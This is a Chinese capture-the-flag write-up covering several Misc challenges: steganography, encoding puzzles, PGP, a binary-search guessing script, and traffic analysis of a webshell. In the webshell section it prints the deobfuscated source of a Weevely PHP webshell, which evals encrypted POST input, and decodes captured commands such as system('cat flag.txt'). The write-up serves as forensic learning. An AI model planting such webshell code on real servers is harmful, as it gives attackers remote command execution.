







## 题目解题过程

### Misc-二维码的秘密 解题步骤：
文件啥也没有，一眼LSB隐写
StegSolve打开，Blue plane 1通道发现二维码，扫描后得到flag

轻松拿下flag： ```flag{43ff4dfc6018149aba91dce2efffe64a}```

### Misc-欢迎来到川大 解题步骤：
打开文件，拖入010editor，发现文件末尾有flag

轻松解出flag: ```flag{8c79c19629b139fa330d2ae47d44ce7c}```

### Misc-奇怪的字符 解题步骤：
中文谐音（或无线电术语）对英文字母和数字的转写
艾福 => f
艾偶 => l
......以此类推
轻松解出flag：```flag{f5fca0daffb0ebf4b2cd837a53ef1175}```

### Misc-webshell 解题步骤：
流量分析题，手边没有WireShark
数据包丢进```https://apackets.com/```中
进行分析，在HTTP请求中发现可疑的php代码

识别出这是工具 Weevely 生成的 webshell
代码中大量使用了 hZ 作为干扰字符，编写代码进行解析
```
i = 'p="PY16bXfpTDNaKhZyiy";fhZuhZhZnctiohZn x($hZt,$k){$c=strlhZen($k);$l=hZstrh'
d = 'Zlen($t);$hZhZo="hZ";for(hZ$i=0;$i<$l;){forhZ($hZj=0;(hZhZ$j<$hZc&&$i'
g = 'g_match("hZ/hZ$kh(.+)$kf/",@fihZlhZhZehZ_gehZt_contentshZ("php://ihZnp'
P = '<$l);$j++hZ,$i++hZ){$hZo.=hZ$t{hZ$i}^hZ$k{$j};}}return $ohZhZ;}if (@prhZe'
t = 'asehZ64_enhZcodhZe(@hZx(@gzhZcomprehZss($ohZ),$k)hZ);prhZint("$p$kh$r$kf");}';
A = '$k=hZ"9e94b15hZe";$kh=hZ"d312fahZ4223hZ2f";$khZf="d87ahZ55db0hZd39hZ";$hZ'
u = 'uthZ"),$m)==1) {hZ@ob_hZstart();@evhZal(@hZgzuncomprehZsshZ(@x(@basehZ64_hZdecod'
h = 'e($m[1]hZ),$k)))hZ;$ohZ=@ohZb_gethZ_contents()hZ;hZ@ob_hZend_clean()hZ;$r=@b'

combined = A + i + d + P + g + u + h + t
cleaned_code = combined.replace('hZ', '')
print(cleaned_code)
```
运行结果：
```
$k="9e94b15e";$kh="d312fa42232f";$kf="d87a55db0d39";$p="PY16bXfpTDNaKyiy";function x($t,$k){$c=strlen($k);$l=strlen($t);$o="";for($i=0;$i<$l;){for($j=0;($j<$c&&$i<$l);$j++,$i++){$o.=$t{$i}^$k{$j};}}return $o;}if (@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1) {@ob_start();@eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));$o=@ob_get_contents();@ob_end_clean();$r=@base64_encode(@x(@gzcompress($o),$k));print("$p$kh$r$kf");}
```
将k kh kf字符串拼接得到一串MD5 ```9e94b15ed312fa42232fd87a55db0d39```
进入```https://md5.cc/```查询 得到payload 为 ```007```


在提取出数据包里面被加密的字符串（剩余两张图略）


根据字符串特征和先前代码，编写脚本解密
```
import base64
import zlib
def xor(data, key):
    key_len = len(key)
    output = bytearray()
    for i in range(len(data)):
        output.append(data[i] ^ ord(key[i % key_len]))
    return output
def decode_payload(payload_b64, key):
    encrypted = base64.b64decode(payload_b64)
    compressed = xor(encrypted, key)
    decrypted = zlib.decompress(compressed)
    return decrypted
key = "9e94b15e"
payloads = [
    "Qflyeaz5Yk2XSRd9r+RlShEqaOPWNzUjlWOz",
    "QfnqGykd50oWSu77Svj4hOsi3zViuTxs0g==",
    "Qflyeaz5Yk2XSRd9r+RlqhAz7oBkMQo4P3s=",
    "QfkK4En5HYVzrnB4tRqcTbhVkwZpiQeWazcSwFB7RxaB7wpmEUP1r9lJOTbwIgE=",
    "Qflyeaz5Yk2XSRd9r+RlKndJaHypeHmyEswRZbWFM2WtPDCL",
    "Qfly/yt9misPVwx7UX2EsYxRjgSxBARRdreMACx95iiMUXaFLod5UI1Rc56H0zdlJ6I1JA=="
]
for i, p in enumerate(payloads):
    result = decode_payload(p, key)
    print(result)
```
得到结果
```
b"echo system('pwd');"
b'/var/www/html\n/var/www/html'
b"echo system('ls');"
b'1.php\nflag.txt\nflag.zip\nindex.html\nshell.php\nshell.php'
b"echo system('cat flag.txt');"
b'flag{c257f1d9-9786-417b-93af-e97d9c9e192b}\n\n'
```
不轻松的解出flag: ```flag{c257f1d9-9786-417b-93af-e97d9c9e192b}```

### Misc-Anno 解题步骤：
分析代码，发现是 AES-CBC 加密和LSB隐写的代码
编写脚本解密
```
from PIL import Image
import numpy as np
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
class AES_LSB_Decryptor:
    def __init__(self, key):
        self.key = key
    def extract_data(self, image_path, bits_per_channel=1):
        img = Image.open(image_path)
        arr = np.array(img)
        height, width, channels = arr.shape
        bits = []
        for y in range(height):
            for x in range(width):
                for c in range(min(channels, 3)):
                    pixel_value = arr[y, x, c]
                    val = pixel_value & ((1 << bits_per_channel) - 1)
                    bits.append(format(val, f'0{bits_per_channel}b'))
        all_bits = "".join(bits)
        def bits_to_bytes(bit_str):
            byte_arr = bytearray()
            for i in range(0, len(bit_str), 8):
                byte = bit_str[i:i+8]
                if len(byte) < 8: break
                byte_arr.append(int(byte, 2))
            return bytes(byte_arr)

        full_data = bits_to_bytes(all_bits)
        data_len = int.from_bytes(full_data[:4], 'big')
        encrypted_payload = full_data[4 : 4 + data_len]
        return encrypted_payload

    def decrypt_data(self, encrypted_payload):
        iv = encrypted_payload[:16]
        ciphertext = encrypted_payload[16:]
        cipher = AES.new(self.key, AES.MODE_CBC, iv)
        decrypted_padded = cipher.decrypt(ciphertext)
        return unpad(decrypted_padded, AES.block_size).decode('utf-8')

def main_decrypt():
    STEGO_IMAGE = "C:\\Users\\CodeAtlantis\\Downloads\\task\\stego.png"
    AES_KEY = b"0123456789abcdef0123456789abcdef"
    decryptor = AES_LSB_Decryptor(key=AES_KEY)
    encrypted_data = decryptor.extract_data(STEGO_IMAGE)
    secret_message = decryptor.decrypt_data(encrypted_data)
    print(f"{secret_message}")

if __name__ == "__main__":
    main_decrypt()
```
解出flag：```flag{7c6ac938-04bc-4127-8bb8-9db4d92f9163}```

### Misc-pgp 解题步骤
拿到gpg文件
使用pgp5windows工具

轻松解出flag：```flag{e56d50da93bb4d7e95a73d83305dac60}```



### Misc-Algorithm 解题步骤
二分猜数游戏，编写脚本
```
from pwn import *

host = 'challenge.qsnctf.com'
port = 45991

r = remote(host, port)
low = 1 << 127
high = (1 << 128) - 1
found = False
secret = 0

print("Starting binary search...")

for i in range(200):
    mid = (low + high) // 2
    r.recvuntil(b'Choice: ')
    r.sendline(b'1')
    r.recvuntil(b'Enter a number: ')
    r.sendline(str(mid).encode())
    
    result = r.recvline().strip().decode()
    
    if result == 'less':
        low = mid + 1
    elif result == 'greater':
        high = mid - 1
    elif result == 'equal':
        secret = mid
        found = True
        print(f"Secret found: {secret}")
        break
    else:
        print(f"Unexpected response: {result}")
        break

if found:
    r.recvuntil(b'Choice: ')
    r.sendline(b'2')
    r.recvuntil(b'Enter secret number: ')
    r.sendline(str(secret).encode())
    
    flag = r.recvall().decode()
    print("Flag:", flag.strip())
else:
    print("Failed to find the secret within the attempts.")

r.close()
```

解出flag：```flag{8cd598b4380846a1a86698412a9312b1}```